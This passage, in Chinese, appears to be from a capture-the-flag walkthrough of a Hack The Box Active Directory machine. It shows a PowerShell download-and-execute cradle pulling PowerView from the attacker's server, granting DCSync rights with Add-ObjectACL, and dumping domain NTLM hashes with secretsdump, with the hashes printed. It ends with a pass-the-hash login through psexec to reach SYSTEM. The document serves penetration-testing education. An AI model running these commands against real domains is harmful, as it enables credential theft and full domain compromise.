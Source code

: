在其中的Recon模块中有个Powerview.ps1模块，这个模块可以协助我们进行权限赋予
首先在自己的机子上开python服务准备这个文件，然后再winrm中导入
`iex(new-Object net.webclient).downloadstring('[http://10.10.16.3:8000/PowerView.ps1')](http://10.10.16.3:8000/PowerView.ps1'))`
导入之后运行`menu`可以发现模块增加
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680264858155-38f6282f-93c5-487a-9a74-31424d165ae3.png#averageHue=%23303026&clientId=u7e313bdf-7b57-4&from=paste&height=438&id=udc4d8b14&name=image.png&originHeight=547&originWidth=1145&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=849010&status=done&style=none&taskId=u6a992c0f-8eb2-4c17-b19e-b6d300be3c4&title=&width=916)
其中Add-ObjectACL模块可以添加DCSync权限`Add-ObjectACL -PrincipalIdentity boogipop -Credential $cred -Rights DCSync`
## （4）DCSync攻击导出管理员hash
[https://shu1l.github.io/2020/08/05/dcsync-yu-dcshadow-gong-ji-xue-xi/#DCSync%E6%94%BB%E5%87%BB%E5%88%A9%E7%94%A8](https://shu1l.github.io/2020/08/05/dcsync-yu-dcshadow-gong-ji-xue-xi/#DCSync%E6%94%BB%E5%87%BB%E5%88%A9%E7%94%A8)
> DCSync攻击原理
> DCSync 的原理非常清晰，利用域控制器之间的数据同步复制。
> 
> 发现网络中的目标域控制器;
> 通过 DRS 服务的 GetNCChanges 接口发起数据同步请求，Directory Replication Service (DRS) Remote Protocol
> Samba wiki 关于 GetNCChanges 的描述包括:
>  当一个 DC (客户端 DC)想从其他 DC (服务端 DC)获取数据时，客户端 DC 会向服务端 DC 发起一个 GetNCChanges 请求。回应的数据包括需要同步的数据。
> 如果需要同步的数据比较多，则会重复上述过程。毕竟每次回应的数据有限。

主打一个数据同步
一个用户想发起 DCSync 攻击，必须获得以下任一用户的权限：

- Administrators组内的用户
- Domain Admins组内的用户
- Enterprise Admins组内的用户
- 域控制器的计算机帐户

上述过程中我们直接创建了一个有Sync权限的用户，因此接下来该做的解释导出管理员hash，这里还是使用impacket包下的一个模块`secretsdump`
`secretsdump.py  htb/boogipop@10.10.10.161`
之后可以获取所域中所有用户的hash，包括admin的
```
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
可以发现admin的hash
## （5）PTH票据传递获取Root
最后通过PTH攻击即可获取root权限，这里使用的也是该工具包中的模块`psexec`
`psexec.py administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6`
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680265239008-a7e4ecae-0c65-4eb3-8e5c-0df51a4bea9b.png#averageHue=%23343328&clientId=u7e313bdf-7b57-4&from=paste&height=289&id=u35f926c7&name=image.png&originHeight=361&originWidth=1205&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=585428&status=done&style=none&taskId=uf9b6c975-d0eb-406c-ad43-b65f7e706d8&title=&width=964)
获取system权限。
最后也是在desktop中获取root.txt
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680265274467-22fa66dd-c8d9-476d-b670-cc3999e5ad08.png#averageHue=%23313128&clientId=u7e313bdf-7b57-4&from=paste&height=56&id=ub065a31e&name=image.png&originHeight=70&originWidth=749&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=78940&status=done&style=none&taskId=u7a48021c-72a8-4022-92da-b1edb46889e&title=&width=599.2)
拿下~


